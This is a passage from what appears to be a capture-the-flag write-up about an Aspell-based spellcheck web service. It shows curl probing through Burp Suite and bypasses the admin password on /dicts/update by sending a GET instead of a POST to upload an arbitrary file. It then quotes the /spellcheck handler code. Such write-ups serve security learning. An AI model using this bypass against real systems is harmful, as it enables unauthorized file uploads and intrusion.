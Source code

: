 Let's do some initial probing of above endpoints via curl. We're also firing up Burpsuite as an Interception Proxy to route our traffic through to be able to further inspect and/or tamper with it (TCP port 8080 on localhost).

### Endpoint /status

```console
$ curl http://116.202.161.100:5000/status --proxy "http://127.0.0.1:8080"                       
{"cwd":"/home/challenge/challenge","engine":"@(#) International Ispell Version 3.1.20 (but really Aspell 0.60.8)","platform":"Linux"}
```

So Aspell version 0.60.8 seems to be used on a Linux platform. The additional challenge hint reads that Ubuntu 22.04 is being used.

### Endpoint /dicts

```console
$ curl http://116.202.161.100:5000/dicts --proxy "http://127.0.0.1:8080"
{"dicts":["en.multi","en-wo_accents-only.rws","en-wo_accents.multi","en-common.rws"]}
```

The **dicts** subdirectory seems to only contain English dictionary files.

### Endpoint /dicts/update

If we are to use the HTTP method POST, we would need to supply the correct ADMIN_PASSWORD via parameter **password**. But we don't know this.

We could bypass the password check by using a different HTTP method. Let's try to upload a new (fake) dictionary file via HTTP GET.

```console
$ echo bla > blub.txt
$ curl http://116.202.161.100:5000/dicts/update -X GET -F "dict=@blub.txt" --proxy "http://127.0.0.1:8080"
{"status":"ok"}
```

Status **ok** sounds good. Let's verify with **/dicts**.

```console
$ curl http://116.202.161.100:5000/dicts --proxy "http://127.0.0.1:8080"
{"dicts":["en.multi","en-wo_accents-only.rws","en-wo_accents.multi","blub.txt","en-common.rws"]}
```

Perfect! We have verified that we can upload files via endpoint **/dicts/update** using the HTTP method GET.

### Endpoint /spellcheck

Let's take a closer look at how this endpoint works.

```python
def aspell(*args, **kwargs):
    args = ["aspell", "--dict-dir", DICTS_DIR] + list(args)
    return check_output(args, **kwargs).strip().decode()


@app.route("/spellcheck", methods=["POST"])
def spellcheck_raw():
    lang = secure_filename(request.form.get("lang", "en"))
    text = request.form.get("text", "").encode()
    results = aspell("pipe", "-d", lang, input=text).splitlines()[1:]
    return jsonify({"results": results})
```
